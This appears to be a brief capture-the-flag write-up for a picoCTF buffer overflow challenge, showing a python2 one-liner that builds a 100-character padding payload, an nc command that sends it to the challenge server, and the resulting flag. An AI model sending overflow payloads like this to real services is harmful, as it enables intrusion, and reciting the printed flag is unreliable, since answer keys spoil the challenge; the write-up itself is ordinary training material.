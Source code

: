 # Objective is to overflow the buffer.

### Create payload to jump to win fnc:
└─$ python2 -c "print('A' * 100)" > payload

### final payload:
└─$ nc saturn.picoctf.net 61481 < payload
Input: 
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
